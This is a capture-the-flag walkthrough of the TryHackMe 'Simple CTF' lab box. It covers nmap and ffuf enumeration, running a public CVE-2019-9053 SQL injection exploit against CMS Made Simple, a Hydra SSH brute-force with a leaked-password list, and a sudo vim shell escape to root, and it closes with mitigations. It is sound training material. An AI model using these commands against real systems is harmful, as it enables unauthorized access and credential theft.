





# Simple CTF


> A beginner-friendly box that touches on almost every classic CTF skill: port scanning, web enumeration, exploiting a known CVE, password cracking/brute-forcing, and Linux privilege escalation.

**Task:** answer the room's questions while compromising the box, ending with the root flag.

**Room link:** https://tryhackme.com/room/easyctf

**Questions to answer:**
1. How many services are running under port 1000?
2. What is running on the higher port?
3. What's the CVE you're using against the application?
4. To what kind of vulnerability is the application vulnerable?
5. What's the password?
6. Where can you login with the details obtained?
7. What's the user flag?
8. Is there any other user in the home directory? What's its name?
9. What can you leverage to spawn a privileged shell?
10. What's the root flag?

---

## 1. Verify the machine is running

```bash
ping -c 3 10.130.169.86
```

- `-c 3` sends exactly 3 ICMP echo requests and then stops, instead of pinging forever.

```
PING 10.130.169.86 (10.130.169.86) 56(84) bytes of data.
64 bytes from 10.130.169.86: icmp_seq=1 ttl=62 time=12.1 ms
64 bytes from 10.130.169.86: icmp_seq=2 ttl=62 time=12.7 ms
64 bytes from 10.130.169.86: icmp_seq=3 ttl=62 time=10.8 ms

--- 10.130.169.86 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 10.764/11.857/12.665/0.801 ms
```

0% packet loss confirms the machine is up and reachable.

## 2. Port scanning with Nmap

```bash
nmap -sC -sV 10.130.169.86
```

- `-sC` runs Nmap's **default script set** (`--script=default`) against every open port. These are safe, non-intrusive NSE (Nmap Scripting Engine) scripts that grab extra banner/version/config info — things like `ftp-anon` (checks for anonymous FTP login) or `http-title` (grabs the page title) below.
- `-sV` enables **version detection**: instead of just saying "port 21 is open", Nmap probes the service and tries to identify the exact product and version (e.g. `vsftpd 3.0.3`).
- No `-p` is given, so Nmap scans its default list of the 1000 most common TCP ports.

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

Three TCP ports are open:

| Port | Service | Version |
|------|---------|---------|
| 21   | FTP     | vsftpd 3.0.3 (anonymous login allowed) |
| 80   | HTTP    | Apache 2.4.18 (Ubuntu) |
| 2222 | SSH     | OpenSSH 7.2p2 (non-default port — the standard port 22 is not in use) |

**Q1 — How many services are running under port 1000?**
Ports 21 and 80 are below 1000 (port 2222 is not).
**ANSWER: 2**

**Q2 — What is running on the higher port?**
Port 2222, the highest of the three, is running SSH.
**ANSWER: SSH**

## 3. Web enumeration

Port 80 just serves the default "Apache2 Ubuntu Default Page", so there's nothing interesting on the index page itself — we need to look for hidden directories.



```bash
ffuf -u "http://10.130.169.86//FUZZ" \
     -w /home/verykraken/GitClones/SecLists/Discovery/Web-Content/combined_directories.txt:FUZZ \
     -ic -c
```

- `-u "http://.../FUZZ"` is the target URL, with `FUZZ` marking the position where each wordlist entry gets substituted.
- `-w path:FUZZ` points to the wordlist (here, SecLists' combined directory list) and binds it to the `FUZZ` keyword.
- `-ic` ("ignore comments") skips comment lines in the wordlist.
- `-c` just colourises the output for readability.

Out of the ~128k requests, two results stand out from the wall of `403 Forbidden` noise:

```
simple        [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 14ms]
robots.txt    [Status: 200, Size: 929, Words: 176, Lines: 33, Duration: 13ms]
```

`robots.txt` turns out to just be CUPS boilerplate disallowing `/openemr-5_0_1_3`, nothing exploitable there. But `/simple` (HTTP 301, i.e. a redirect, typical of a directory) is worth a visit:



The footer reveals the exact product and version:



It's **CMS Made Simple v2.2.8**.

## 4. Finding a public exploit

Searching Exploit-DB (or `searchsploit`) for "CMS Made Simple" turns up an unauthenticated SQL injection affecting versions ≤ 2.2.9:



**Q3 — What's the CVE you're using against the application?**
**ANSWER: CVE-2019-9053**

**Q4 — To what kind of vulnerability is the application vulnerable?**
**ANSWER: SQLi (SQL Injection)**

## 5. Exploiting the SQL injection

The public PoC (`exploit.py`) is written for Python 2 and fails outright on a modern system:

```bash
python3 exploit.py -u http://10.130.169.86/simple
```
```
  File "/home/verykraken/exploit.py", line 25
    print "[+] Specify an url target"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

That's just Python 2 `print` statement syntax (`print "x"`) vs Python 3's `print("x")` function call syntax — a quick, mechanical fix (fixing every `print` call, plus `file()`/`except` differences if present). After porting it, the script runs as expected.

**What the exploit actually does:** this CVE is a **blind, time-based SQL injection** in CMS Made Simple's `moduleinterface.php` (News module). The script can't read data directly in the HTTP response, so it asks the database boolean yes/no questions and measures the response time: it injects a `SLEEP(1)` that only fires `AND <character> LIKE <guess>`, and if the response takes ~1 second longer, the guess was correct. Repeating this character-by-character recovers, in order:
1. the password **salt** stored in `cms_siteprefs`,
2. the admin **username** from `cms_users`,
3. the admin **email**,
4. the admin's **password hash** (MD5 of `salt + plaintext`).

```bash
python3 exploit.py -u http://10.130.169.86/simple
```
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

We now have a username (`mitch`) and a salted MD5 hash, but not the plaintext yet. Rather than trying to crack `MD5(salt + password)` offline, it's faster to just try the username straight against the open SSH port with a small wordlist.

## 6. Brute-forcing SSH with Hydra

```bash
hydra -l mitch -P GitClones/SecLists/Passwords/Leaked-Databases/rockyou-75.txt ssh://10.130.169.86:2222
```

- `-l mitch` fixes a single **l**ogin name to try (as opposed to `-L` which would take a list of usernames).
- `-P <file>` supplies the **p**assword wordlist to try against that login (uppercase `-P` = file of passwords; lowercase `-p` would be a single password).
- `ssh://10.130.169.86:2222` is the target service and port — Hydra needs the port spelled out here since SSH isn't listening on the default 22.

```
[2222][ssh] host: 10.130.169.86   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
```

Credentials found: `mitch:secret`.

**Q5 — What's the password?**
**ANSWER: secret**

**Q6 — Where can you login with the details obtained?**
**ANSWER: SSH**

## 7. Logging in and grabbing the user flag

```bash
ssh mitch@10.130.169.86 -p 2222
```

- `-p 2222` tells the SSH client which port to connect to, since the server isn't on the default port 22.

After accepting the host key and entering the password `secret`, we land on the box as `mitch`:

```
$ id
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)
$ cat user.txt
G00d j0b, keep up!
```

**Q7 — What's the user flag?**
**ANSWER: G00d j0b, keep up!**

## 8. Enumerating for privilege escalation

First, is there another user on the box?

```bash
$ cd ..
$ ls
mitch  sunbath
```

**Q8 — Is there any other user in the home directory? What's its name?**
**ANSWER: sunbath**

Next, check what `mitch` is allowed to run as other users:

```bash
$ sudo -l
```

- `sudo -l` **l**ists the commands the current user is permitted to run via `sudo`, without actually running anything.

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

`mitch` can run `vim` as root, with `NOPASSWD` meaning no password prompt is even required.

**Q9 — What can you leverage to spawn a privileged shell?**
**ANSWER: vim**

## 9. Privilege escalation via vim (GTFOBins)

[GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) documents that `vim` can be abused to break out into a shell when run with elevated privileges, because Vim's `:!` command executes an arbitrary shell command — and that shell inherits Vim's own privileges (root, in this case):



```bash
sudo vim -c ':!/bin/sh'
```

- `sudo` runs `vim` as root (allowed `NOPASSWD`, per `sudo -l` above).
- `-c ':!/bin/sh'` tells Vim to execute the Ex command `:!/bin/sh` immediately on startup — `:!<cmd>` runs `<cmd>` in a shell from within Vim. Since Vim itself is running as root, the spawned shell is also root.

```
# id
uid=0(root) gid=0(root) groups=0(root)
```

We're root. Grab the final flag:

```bash
# cd /root
# cat root.txt
W3ll d0n3. You made it!
```

**Q10 — What's the root flag?**
**ANSWER: W3ll d0n3. You made it!**

Room solved.

## Takeaways

This box chains together several classic weaknesses, end to end:

- **Service/version enumeration** (`nmap -sC -sV`) immediately reveals an outdated FTP daemon, a default Apache page, and SSH on a non-standard port.
- **Unauthenticated blind SQL injection** (CVE-2019-9053) in an outdated CMS let us dump admin credentials without ever touching the database directly — one character, one timing measurement, at a time.
- **Credential reuse / weak passwords**: the recovered username worked for SSH login once brute-forced with a small wordlist, showing how a leaked username plus a weak password is often enough on its own.
- **Dangerous sudo rules**: granting `NOPASSWD` sudo access to an editor like `vim` (or any program capable of spawning a shell) is equivalent to granting full root access, because of built-in shell-escape functionality.

**Mitigation:**
- Keep third-party software (CMS, plugins, server software) patched — CVE-2019-9053 was fixed in CMS Made Simple 2.2.10.
- Use parameterized queries/prepared statements so user input can never be interpreted as SQL.
- Enforce strong, unique passwords and rate-limit/lock out repeated authentication failures to blunt brute-force attacks.
- Apply least privilege for `sudo` rules: never grant `NOPASSWD` (or any) sudo access to an interactive editor, pager, or other GTFOBins-listed binary unless absolutely necessary — check https://gtfobins.github.io/ before writing a sudoers rule.